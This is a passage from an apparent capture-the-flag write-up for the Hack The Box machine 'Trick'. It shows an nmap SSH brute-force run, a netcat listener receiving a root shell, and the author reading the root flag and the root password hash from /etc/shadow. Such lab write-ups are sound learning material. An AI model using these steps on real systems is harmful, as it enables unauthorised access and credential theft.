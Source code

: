 In another terminal use nmap with our fake credentials to brute force the ssh on port 22:

```sh
┌──(root㉿kali)-[~/htb/trick]
└─# nmap trick.htb -p 22 --script ssh-brute --script-args userdb=users.txt,passdb=passwords.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-06 22:38 BST
NSE: [ssh-brute] Trying username/password pair: a:a
NSE: [ssh-brute] Trying username/password pair: b:b
NSE: [ssh-brute] Trying username/password pair: c:c
NSE: [ssh-brute] Trying username/password pair: d:d
NSE: [ssh-brute] Trying username/password pair: e:e
NSE: [ssh-brute] Trying username/password pair: f:f
NSE: [ssh-brute] Trying username/password pair: :
NSE: [ssh-brute] Trying username/password pair: b:a
NSE: [ssh-brute] Trying username/password pair: c:a
<SNIP>
```

## Root Flag

Switch to our waiting netcat to see we're connected as root:

```sh
┌──(root㉿kali)-[~/htb/trick]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.198] from (UNKNOWN) [10.10.11.166] 45944
id
uid=0(root) gid=0(root) groups=0(root)
```

Let's grab the root flag and hash to finish the box:

```text
cat /root/root.txt
136acf699103a7099c1d063156de51ce

cat /etc/shadow | grep root
root:$6$lbBzS2rUUVRa6Erd$u2u317eVZBZgdCrT2HViYv.69vxazyKjAuVETHTpTpD42H0RDPQIbsCHwPdKqBQphI/FOmpEt3lgD9QBsu6nU1:19104:0:99999:7:::
```

All done. I hope you enjoyed that nice easy box. See you next time.

